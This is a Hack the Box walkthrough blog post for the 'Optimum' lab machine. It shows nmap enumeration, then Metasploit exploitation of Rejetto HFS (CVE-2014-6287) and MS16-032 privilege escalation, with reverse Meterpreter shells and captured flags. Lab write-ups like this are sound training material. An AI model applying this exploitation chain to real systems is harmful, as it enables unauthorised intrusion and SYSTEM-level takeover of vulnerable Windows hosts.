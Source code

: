 ```yaml
---
title: Optimum, Hack the Box CTF Walkthrough
lead: Exploiting CVE-2014-6287, Rejetto HTTP File Server (HFS) 2.3.x Remote Command Execution
tag: CTF
image: /assets/img/posts/2021-03-04-Optimum-hack-the-box-walkthrough/Optimum.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
desription: "Optimum is an easy level HTB challenge from the HTB archives. This challenge requires initial user access through a remote command execution vulnerability and local privilege escalation"
card: card-2
navheader: posts
---
```


Optimum is a easy level retired CTF from Hack the Box. To root this machine, I gained initial access by exploiting a remote command execution vulnerability (CVE-2014-6287) and escalated privileges to root through a local windows privilege escalation vulnerability (CVE-2016-0099).  

## Enumeration

To start, I used nmap to enumerate open services and running ports.  The resulting output revealed the target server was running the HttpFileServer, version 2.3.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/OptimumRETIRED]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.8                                                                                           1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 20:01 EST
Nmap scan report for 10.10.10.8
Host is up (0.026s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.39 ms 10.10.14.1
2   27.77 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```  

## Vulnerability Identification  

Research into the HttpFileServer version 2.3 revealed its vulnerable to CVE-2014-6287, a remote command execution  vulnerability which has several public exploits available. One of these exploits is available in a metasploit module, so I launched metasploit and configured the necessary options.  

```bash
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Using URL: http://0.0.0.0:8081/IfzP0QI2SL
[*] Local IP: http://192.168.232.8:8081/IfzP0QI2SL
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /IfzP0QI2SL
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2021-03-04 20:09:00 -0500

[!] Tried to delete %TEMP%\OMHaX.vbs, unknown result



[*] Server stopped.

meterpreter > 
```   

## Locate User Flag  

Using the meterpreter shell, I located the user flag and read its contents.  

```bash
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-03-11 05:11:20 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```  

## Post Exploitation Enumeration    

The CVE-2014-6287 exploit opened the meterpreter shell as the kostas user. To read the contents of the Admin flag, I would need to escalate to SYSTEM privilege. First, I attempted the `getsystem` meterpreter command, but this failed. I started to gather additional details about the target, starting with the meterpreter `sysinfo` command.  

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```  

Researching for local privilege escalation vulnerabilities specific for Windows 2012 R2 (6.3 Build 9600) revealed CVE-2016-0099. Fortunately, this too has a metasploit module available. I configured the module and launched the exploit.   

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.13:4441 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PykxFdTyo5bVOiBbBCJ1ZoZo9QIdtpa6
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.13:4441 -> 10.10.10.8:49166) at 2021-03-04 20:41:02 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1

meterpreter > shell
```  

## Locate Root Flag  

Using the meterpreter `shell` command, I dropped into the windows cmd shell and searched manually for the root flag.   

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.899.729.920 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>
```